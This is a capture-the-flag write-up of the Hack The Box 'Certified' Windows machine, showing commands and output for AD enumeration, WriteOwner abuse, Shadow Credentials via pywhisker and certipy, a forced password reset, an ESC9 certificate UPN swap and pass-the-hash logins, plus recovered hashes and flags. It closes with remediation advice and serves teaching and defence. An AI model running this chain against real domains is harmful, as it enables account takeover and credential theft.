





## HTB Certified — Full Walkthrough & Writeup

**Certified** is a medium-difficulty Windows Active Directory machine from Hack The Box. This writeup details the complete attack path, starting from initial Active Directory enumeration to leveraging WriteOwner permissions over a security group, performing a Shadow Credentials attack to pivot to a service account, resetting passwords, and exploiting the **ESC9** Active Directory Certificate Services (ADCS) vulnerability to compromise the Domain Controller.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2019                    |
| **Difficulty**       | Medium                                 |
| **Domain**           | `certified.htb`                        |
| **DC Hostname**      | `DC01`                                 |
| **IP Address**       | `10.129.231.186`                       |
| **Starting Credentials** | `judith.mader` / `judith09`            |
| **Foothold Account** | `management_svc` (Shadow Credentials)  |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path:



---

## Reconnaissance

### Port scanning

I will begin by conducting an Nmap service and version scan using default scripts. This will help identify any open ports that I can target for further exploration.

!!! tip "Save Nmap Outputs"
    Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ nmap -sC -sV -p- -Pn --min-rate 10000 -oA nmap_report 10.129.231.186
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 10:39 IST
Nmap scan report for 10.129.231.186
Host is up (0.14s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 12:10:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-12T12:11:53+00:00; +6h59m59s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-12T12:11:54+00:00; +7h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-12T12:11:53+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
56031/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-12T12:11:15
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.09 seconds

```

From the initial look itself, it is pretty clear that this is a domain controller. I can tell that by the presence of several ports which are typically associated with a domain controller. 

Example-
1. Port 88/tcp - Kerberos
2. Port 53/tcp - DNS
3. Port 389/tcp - LDAP
etc...

### SMB
using `Hudith's` credentials, I checked if there are any interesting SMB shares on the servers, but I found none.


```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ netexec smb 10.129.231.186 -u 'judith.mader' -p 'judith09' --shares
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             [*] Enumerated shares
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark
SMB         10.129.231.186  445    DC01             -----           -----------     ------
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.186  445    DC01             C$                              Default share
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share 
```
### User Enumeration

Even though there are no interesting shares on the server, I was able to at least get the list of users in the domain.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ netexec smb 10.129.231.186 -u 'judith.mader' -p 'judith09' --users 
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.231.186  445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain 
SMB         10.129.231.186  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.231.186  445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.129.231.186  445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.129.231.186  445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.129.231.186  445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.129.231.186  445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.129.231.186  445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.129.231.186  445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.129.231.186  445    DC01             [*] Enumerated 9 local users: CERTIFIED
```

### Bloodhound

Next, I ran `bloodhound-python` using Judith's account to find any potential attack paths in the environment.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ bloodhound-python -d certified.htb -ns 10.129.231.186 -u  judith.mader -p 'judith09' -c All --zip
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 23S
INFO: Compressing output into 20241112105018_bloodhound.zip
```
### Bloodhood Analysis
1. Judith has **WriteOwner** privileges over **Management** security group.

2. **Management** security group currently contains only 1 member: **management_svc**.

3. **Management_svc** has **GenericAll** permissions on the **CA_OPERATOR** account.

4. **Management_svc** can PSRemote into the target.
4. The most viable attack path seems to be **Judith** > **Management** > **Management_svc** > **ca_operator**



## Foothold

Since Judith had **WriteOwner** permissions on the **Management** security group, I am going to add her account as the owner of this security group.

```shell
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainObjectOwner -Identity Management
cn                    : Management
distinguishedName     : CN=Management,CN=Users,DC=certified,DC=htb
objectSid             : S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName        : Management
Owner                 : CERTIFIED\Domain Admins (S-1-5-21-729746778-2675978091-3820388244-512)

```

Let's change the owner to Judith

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ powerview certified/judith.mader:'judith09'@10.129.231.186
Logging directory is set to /home/frodo/.powerview/logs/10.129.231.186
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Set-DomainObjectOwner -TargetIdentity Management -PrincipalIdentity judith.mader                                                                                      
[2024-11-12 11:14:54] [Set-DomainObjectOwner] Changing current owner S-1-5-21-729746778-2675978091-3820388244-512 to S-1-5-21-729746778-2675978091-3820388244-1103
[2024-11-12 11:14:55] [Set-DomainObjectOwner] Success! modified owner for CN=Management,CN=Users,DC=certified,DC=htb
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainObjectOwner -Identity Management
cn                    : Management
distinguishedName     : CN=Management,CN=Users,DC=certified,DC=htb
objectSid             : S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName        : Management
Owner                 : CERTIFIED\judith.mader (S-1-5-21-729746778-2675978091-3820388244-1103)
```

Since now Judith is the owner of the group, let's get full control of the group.

```shell
PV > Add-DomainObjectAcl -TargetIdentity Management -PrincipalIdentity judith.mader -Rights fullcontrol
[2024-11-12 11:16:34] [Add-DomainObjectACL] Found target identity: CN=Management,CN=Users,DC=certified,DC=htb
[2024-11-12 11:16:34] [Add-DomainObjectACL] Found principal identity: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[2024-11-12 11:16:34] Adding FullControl to S-1-5-21-729746778-2675978091-3820388244-1104
[2024-11-12 11:16:34] DACL modified successfully!
```

Then I added Judith as a member of Management Group

```shell
PV > Add-GroupMember -Identity Management -Members judith.mader
[2024-11-12 11:17:40] User judith.mader successfully added to Management
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\judith.mader]
PV > Get-DomainGroupMember Management
GroupDomainName             : Management
GroupDistinguishedName      : CN=Management,CN=Users,DC=certified,DC=htb
MemberDomain                : certified.htb
MemberName                  : judith.mader
MemberDistinguishedName     : CN=Judith Mader,CN=Users,DC=certified,DC=htb
MemberSID                   : S-1-5-21-729746778-2675978091-3820388244-1103

GroupDomainName             : Management
GroupDistinguishedName      : CN=Management,CN=Users,DC=certified,DC=htb
MemberDomain                : certified.htb
MemberName                  : management_svc
MemberDistinguishedName     : CN=management service,CN=Users,DC=certified,DC=htb
MemberSID                   : S-1-5-21-729746778-2675978091-3820388244-1105
```

Checking if we have **Active Directory Certificate Services** **(AD CS)** in the envuronment. 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ netexec ldap 10.129.231.186 -u  judith.mader -p 'judith09' -M adcs  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.129.231.186  389    DC01             [+] certified.htb\judith.mader:judith09
ADCS        10.129.231.186  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.231.186  389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.129.231.186  389    DC01             Found CN: certified-DC01-CA
```

ADCS is present, so I can update the **msDS-KeyCredentialLink** attribute of **management_svc** and then perform Kerberos authentication to obtain a TGT for that account using PKINIT (public key approach to Kerberos pre-authentication).  We can first use pyWhisker to update the **ms-Ds-KeyCredentialLink** of **management_svc** with a key-pair using **judith.mader** who we set to have **GenericWrite** over the account. We can then use the .pfx certificate with **PKINIT** auth to obtain a TGT for **Management_Svc** and finally recover the NTLM hash for persistence via `unpac-the-hash`.

## Shadow Credentials

Let's start by cloning the [pywhisker](https://github.com/ShutdownRepo/pywhisker) repo from GitHub.
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ git clone https://github.com/ShutdownRepo/pywhisker.git         
Cloning into 'pywhisker'...
remote: Enumerating objects: 192, done.
remote: Counting objects: 100% (66/66), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 192 (delta 56), reused 56 (delta 56), pack-reused 126 (from 1)
Receiving objects: 100% (192/192), 2.08 MiB | 2.33 MiB/s, done.
Resolving deltas: 100% (95/95), done.
```

```shell                                           
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./pywhisker/pywhisker.py -t management_svc -a add --dc-ip 10.129.231.186 -u  judith.mader -p 'judith09' -f management_svc_cert
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 35a786b6-d748-b33a-a112-f6ca8d7537a2
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: management_svc_cert.pfx
[*] Must be used with password: mhzjFxClRQCixnbEXNG7
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Once the .pfx is generated, we can request TGT for the target user using [PKINITtools](https://github.com/dirkjanm/PKINITtools)

```shell
──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./PKINITtools/gettgtpkinit.py certified.htb/management_svc -cert-pfx management_svc_cert.pfx -pfx-pass mhzjFxClRQCixnbEXNG7 management_svc.ccache
2024-11-12 18:45:25,152 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-12 18:45:25,173 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-12 18:45:41,575 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-12 18:45:41,575 minikerberos INFO     888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8
INFO:minikerberos:888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8
2024-11-12 18:45:41,577 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
                                                                                                                                                                            
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ export KRB5CCNAME=management_svc.ccache 

┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./PKINITtools/getnthash.py -key 888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8 'certified.htb/management_svc'                  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/frodo/hack-the-box/certified/./PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/frodo/hack-the-box/certified/./PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

User flag is found at `C:\Users\management_svc\Desktop\user.txt`

```shell                                        
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cat C:\Users\management_svc\Desktop\user.txt
6146fec2d009fda4c7303e2b70e57f67

```

## Privilege Escalation

Changed the password for **ca_operator**

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ powerview certified/management_svc@10.129.231.186 -H a091c1832bcdd4677c28b5a6a1295584
Logging directory is set to /home/frodo/.powerview/logs/10.129.231.186
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\management_svc]
PV > Set-DomainUserPassword -h
usage: powerview Set-DomainUserPassword [-h] [-Identity IDENTITY] [-AccountPassword ACCOUNTPASSWORD] [-OldPassword OLDPASSWORD] [-Server SERVER] [-OutFile OUTFILE]

options:
  -h, --help            show this help message and exit
  -Identity IDENTITY
  -AccountPassword ACCOUNTPASSWORD
  -OldPassword OLDPASSWORD
  -Server SERVER
  -OutFile OUTFILE
(LDAPS)-[DC01.certified.htb]-[CERTIFIED\management_svc]
PV > Set-DomainUserPassword -Identity ca_operator -AccountPassword 'Welcome@123456' 
[2024-11-13 08:10:15] [Set-DomainUserPassword] Principal CN=operator ca,CN=Users,DC=certified,DC=htb found in domain
[2024-11-13 08:10:15] [Set-DomainUserPassword] Password has been successfully changed for user ca_operator
[2024-11-13 08:10:15] Password changed for ca_operator
```

FInding AD CS Vulnerabilities

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad find -u ca_operator -p 'Welcome@123456' -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241113081301_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241113081301_Certipy.txt'
[*] Saved JSON output to '20241113081301_Certipy.json'
```

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account  ca_operator -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138'
[*] Adding Key Credential with device ID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'c90d264c-38d6-3d95-1ccb-7099cb8a7138' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': d1b3a9fb11e8c9ec2b1269fcb7410b41
```

```shell
──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad account update -user ca_operator -upn 'administrator@certified.htb' -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator@certified.htb
[*] Successfully updated 'ca_operator'

```


Requesting the certificate for administrator
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad req -u ca_operator@certified.htb -hashes d1b3a9fb11e8c9ec2b1269fcb7410b41 -template CertifiedAuthentication -upn administrator@certified.htb -ca certified-DC01-CA -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'administrator@certified.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

After 'administrator.pfx' is recieved, revert the change.
```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad account update -user ca_operator -upn 'ca_operator@certified.htb' -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ certipy-ad auth -username administrator -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```


`evil-winrm` session with administrator account. 
```shell                         
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ evil-winrm -i 10.129.231.186 -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
86239216464f31ebed63b86a18f996ea

```

Root flag is found at: `C:\Users\Administrator\Desktop\root.txt`

---

## Lessons Learned

### 1. Group Ownership Security (WriteOwner)
Judith Mader had `WriteOwner` privileges over the `Management` security group, which allowed her to modify group ownership and take full control over its members.
- **Remediation**: Audit security group DACLs and restrict WriteOwner/WriteDacl privileges to Domain Admins and Enterprise Admins. Ensure standard users do not have administrative permissions over security groups.

### 2. Shadow Credentials Mitigation
We pivoted from Judith Mader to the `management_svc` service account by modifying its `msDS-KeyCredentialLink` attribute.
- **Remediation**: Monitor AD objects for updates to the `msDS-KeyCredentialLink` attribute (Event ID 5136). Enforce the Tiered Administration model to ensure that Tier 2 users cannot modify Tier 0/1 service account credentials.

### 3. ADCS ESC9 Exploitation and Hardening
The `CertifiedAuthentication` template was vulnerable to **ESC9** because the CA configuration allowed users to update other users' `userPrincipalName` (UPN) without modifying the certificate subject validation checks.
- **Remediation**: Disable template delegation flags that allow users to modify arbitrary user accounts. Enforce strict certificate validation checks at the CA level, and require administrator approval for certificate requests that specify custom SANs or UPNs.
